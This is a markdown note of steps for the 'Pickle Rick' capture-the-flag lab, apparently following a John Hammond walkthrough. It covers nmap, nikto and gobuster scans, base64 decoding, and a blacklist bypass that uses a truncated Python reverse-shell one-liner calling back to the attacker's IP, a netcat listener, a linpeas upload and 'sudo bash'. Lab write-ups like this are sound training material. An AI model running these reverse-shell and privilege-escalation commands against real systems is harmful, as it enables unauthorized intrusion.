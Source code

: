 # Pen-testing Set up demonstrated by John Hammond for the Pickle rick CTF

- step 1: make directory for resources
- Step 2: subl README.md
  - Add ip as export to note pad
    - export IP={IP}
    - nmap results
- Step 3: create nmap directory
  - nmap -sC -sV -oN [file location]} $IP
- Grab IP address

## Set up Nikto scanner
  - export IP={IP}
  - nikto -h http://$IP | tee nikto.log

# Set up gobuster
  - export IP
  - gobuster dir -u <url> -w <wordlist_file.txt> -x <file_extensions>
  - gobuster dir -u http://workers.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,php3,html


## Investigation options
- nmap
- could use hydra to brute force password
- gobuster
- investigate website for clues
- grep . clue.txt // grep -R . (return all files in folder - look at source code)

## Base64 string - add 'base64 -d' to get through the layers of the onion of base64
  - echo {base 64} | base64 -d | base64 -d

## Bypassing blacklist
- test what languages will work in text box
- pentestmonkey (reverse shell cheatsheet)
  - python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{Change to my IP}",{Change to port 9999}))
- nc -lnvp 9999
- run above script in text box
### Stabalize shell
- github.com/johnHammond/poor-mans-pentest
- stabilize_shell3.sh
- upload_file_nc.sh /opt/linpeas.sh

- shm$ chmod +x linpeas.sh
- ./linpeas.sh
- sudo bash

  - identify my IP address
    - ip addr show tun0

## Task list
1. What is the first ingredient Rick needs?

2. Whats the second ingredient Rick needs?

3. Whats the final ingredient Rick needs?